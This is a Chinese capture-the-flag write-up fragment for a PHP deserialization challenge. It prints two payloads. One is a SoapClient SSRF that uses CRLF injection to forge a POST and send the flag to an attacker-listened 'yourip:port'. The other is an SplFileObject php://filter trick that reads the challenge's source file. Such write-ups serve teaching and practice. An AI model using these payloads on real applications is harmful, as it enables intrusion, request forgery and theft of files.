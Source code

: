 

上面的提示是，必须是127.0.0.1，所以完整的路径出来了

127.0.0.1/unserbucket/aaaaaaaaaaafxadwagaefae/UcantGuess.php

又知道需要我们post一个参数和url，又需要内置类来构造

我们想到了Soap_Client和SSRF的结合



**预期解**

利用CRLF伪造http包

构造payload

```php
<?php
$url = 'http://127.0.0.1/unserbucket/aaaaaaaaaaafxadwagaefae/UcantGuess.php';
$post_string = 'message=iwantflag&url=http://yourip:port';
$headers = array(
    'X-Forwarded-For: 127.0.0.1'
    );
$b=array('location' => $url,'user_agent'=>'wupco\r\nContent-Type: application/x-www-form-urlencoded\r\nX-Forwarded-For: 127.0.0.1\r\nContent-Length: '.(string)strlen($post_string).'\r\n\r\n'.$post_string,'uri' => "aaab");
class fxxk{
	public $par0 = 'SoapClient';
    public $par1 = null;
    public $par2;
    public $par3 = 'unser';
	public $kelasi;
}
$a=new fxxk();
$a->par2=$b;
echo urlencode(serialize($a));
?>
```

然后监听端口，直接打就行了。

**非预期解**

利用[SplFileObject](https://www.php.net/manual/zh/class.splfileobject.php)，对文本文件进行遍历

```php
$a= new fxxk();
$a->par0 = 'SplFileObject';
$a->par1 = 'php://filter/convert.base64-encode/resource=aaaaaaaaaaafxadwagaefae/UcantGuess.php';
$a->par2 = 'rb';
$b = serialize($a);
echo(urlencode($b));

```

直接获取源代码

也可以看看这个文章
